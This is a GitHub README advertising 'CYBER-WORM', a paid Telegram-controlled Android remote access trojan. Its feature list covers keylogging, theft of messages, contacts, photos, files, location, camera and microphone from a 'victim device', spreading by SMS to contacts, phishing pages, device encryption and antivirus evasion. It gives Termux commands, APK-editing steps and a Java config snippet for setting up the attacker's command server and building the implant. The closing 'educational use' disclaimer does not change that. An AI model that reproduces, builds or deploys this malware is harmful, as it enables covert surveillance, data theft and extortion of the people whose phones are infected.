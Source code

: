 <h1 align=center> CYBER-WORM </h1>

-------------------------

<p align="center">
  <i>A multifunctional Telegram based Android Hacking OSINT without port forwarding</i>
</p>


## Features
-🔐 Keylogger {Availbe in apk v1 and v2}
- 📱 Control Keys (Back, Recent, Home)
- 🔊 Control device volume
- ✨ Beautiful telegram bot interface
- 🤖 Undetectable by antivirus
  ## CYBER-WORM T PAID VERSION FEATURES
- 🖥️ Screenshot (get screenshot from your victim device)
- 📒 Gallery puller (Get all photos available in gallery)
-  🔤 Advance Keylogger
- 🔴 Real time
- 🌐 custom web view
- 📡 receive information about simcard provider
- 📳 vibrate target device
- 🛰️ receive device location
- ✉️ receive all target message
- ✉️ send sms with target device to any number
- ✉️ send sms with target device to all of his/her contacts
- 👤 recive all target contacts
- 💻 receive list of all installedd apps in target device
- 📁 receive any file or folder from target device
- 📁 delete any file or folder from target device
- 🔔 notification reader
- 🔔 notification sender (send custom notification that apper on target device with custom click link)
- 🗨️ show toast message on target device (Toasts are messages that appear in a box at the bottom of the device)
- 📷 capture main and front camera
- 🎙 capture microphone (with custom duration)
- 📋 receive last clipboard text
- 🔦 Torch ON & OFF {if flash available on device}
- ✅️ auto start after device boot
- 🔐 Open any phising page in victim device
-  📁 PowerFull file manager {delete and Download Files}
-  Auto grant permissions
-  Decrypt & Encrypt device
- ✨ Beautiful telegram bot interface
- 🤖 Undetectable by antivirus
  <p align="center">
  <a href="https://t.me/MiHRK_Owner">
    <img src="https://img.shields.io/badge/BUY-NOW-blue?style=for-the-badge&logo=telegram" alt="Telegram Badge"/>
  </a>
  <a href="https://t.me/Hidden_Database">
    <img src="https://img.shields.io/badge/BUY-NOW-blue?style=for-the-badge&logo=telegram" alt="Telegram Badge"/>
  </a>
  <a href="https://t.me/Technical_Robot">
    <img src="https://img.shields.io/badge/BUY-NOW-blue?style=for-the-badge&logo=telegram" alt="Telegram Badge"/>
  </a>
  </p>
<h2>Requirements</h2>
<ul>
  <li><span style="color: #0074D9;">APK EDITOR</span></li>
  <li><span style="color: #2ECC40;">TERMUX</span></li>
  <li>For hosting server code, you can use some free services like:</li>
  <ul>
    <li><a href="https://replit.com/" style="color: #FF4136;">replit.com</a></li>
    <li><a href="https://glitch.com/" style="color: #FFDC00;">glitch.com</a></li>
    <li><a href="https://heroku.com/" style="color: #B10DC9;">heroku.com</a></li>
    <li><a href="https://render.com/" style="color: #B10DC9;">render.com</a></li>
  </ul>
  <p align="center">
  
  </a>
</p>
  <li>Keep in mind that these sites can suspend your projects, so it's better to host on your own computer.</li>
  
</ul>

<h2 align="center">Download</h2>

<p align="center">
  <a href="https://github.com/Technical-Robot/Termux_0.119.1/raw/main/Termux_0.119.1_Letest_Ver%20signed%20by%20F-Droid_.zip">
    <img src="https://img.shields.io/badge/Termux%20Download-Click%20to%20Download-brightgreen?style=for-the-badge&logo=android" alt="Download Termux" />
  </a>
  <a href="https://github.com/Technical-Robot/Apk-Editor-Pro-2024/raw/main/APK%20Editor%20UI_3.0.6.apk">
    <img src="https://img.shields.io/badge/APK%20Editor%20Download-Click%20to%20Download-brightgreen?style=for-the-badge&logo=android" alt="Download APK Editor" />
  </a>
</p>


## How to host server in Termux 
<p>Run the following commands in Termux:</p>



```bash  
  pkg update && upgrade -y
  
  pkg install git -y
  
  git clone https://github.com/Technical-Robot/CYBER-WORM
  
  cd CYBER-WORM
  
  bash start.sh
  
Enter your bot token 

Enter your chatid 

And hit enter

Now open a new Tab, and give these commands

pkg install openssh

bash port.sh 

Enter your telegram username And hit enter 

Copy url and minimize the termux
```

## Edit apk
 - Open Apk editor 
 - select apk
 - choose full edit
 - select decode all files
 - go to assets folder
 - open host.json
 - and enter url
 - in socket replace url https to wss 
 - build apk ,start the bott  Enjoy

## example
```bash  
  { 
  "host": "https://yoururl.com/", 
  "socket": "wss://yoururl.com/", 
  "webView": "https://google.com/" 
}
```

## How to Build in Android Studio

To build the application in Android Studio, follow these steps:

1. Open the Android Studio and import the application source code.
2. Navigate to the following path in the source code: `Utils/AppTools.java`.
3. In the `AppTools.java` file, locate the `data` variable and copy your server information into it.
4. However, before copying the server information directly into the variable, you must encode it using Base64.
5. Here is an example server structure for your server information:
```
{
"host" : "",
"socket" : "",
"webView" : "https://www.google.com"
}
```

6. Fill in the above server structure with your server information.
7. Go to https://www.base64encode.org/ and copy the encoded result of your server data.
8. In Android Studio, paste the encoded result into the `data` variable.
9. The final code should look like this:

```java
public static AppData getAppData() {
  String data = "<your encoded server info>";
  String text = decode(data);
  return new Gson().fromJson(text, AppData.class);
}
```



<p align="center">
  <img src="https://img.shields.io/badge/Disclaimer-Important-red" alt="Important Disclaimer"/>
</p>

<p align="center">
  <b><i>Note:</i></b> The developer provides no warranty with this software and will not be responsible for any direct or indirect damage caused by the usage of this tool. CYBER-WORM is built for educational and internal use only.
</p>

<p align="center">
  <b><i>Attention:</i></b> We do not endorse any illegal or unethical use of this tool. The user assumes all responsibility for the use of this software.
</p>


<p align="center">
  <b><i>Thank you for using CYBER-WORM  - we hope it serves its intended purpose and helps you achieve your goals!</i></b>
</p>





<p align="center">
<h1 align="center">Sponsorship</h1>

<p align="center">If you find my work valuable, you can show your support by sponsoring me. 
  Your contribution will help me maintain and improve my projects, and it will encourage me to create more useful content.</p>




<p align="center">Thank you to the following people for their support:</p>


</div>

  <br>

  <h1 align=center>Technology Stack Used</h1>
  <p align="center">
    <img src="https://img.shields.io/badge/backend-javascript-violet.svg?logo=javascript&style=flat-square" alt="Javascript" </img>
    <img src="https://img.shields.io/badge/frontend-shell-green.svg?logo=shell&style=flat-square" alt="Shell"</img>
    <img src="https://img.shields.io/badge/frontend-java-orange.svg?logo=java&style=flat-square" alt="Java"</img>
    <img src="https://img.shields.io/badge/frontend-kotlin-violet.svg?logo=kotlin&style=flat-square" alt="Shell"</img>
  </p>

  <br>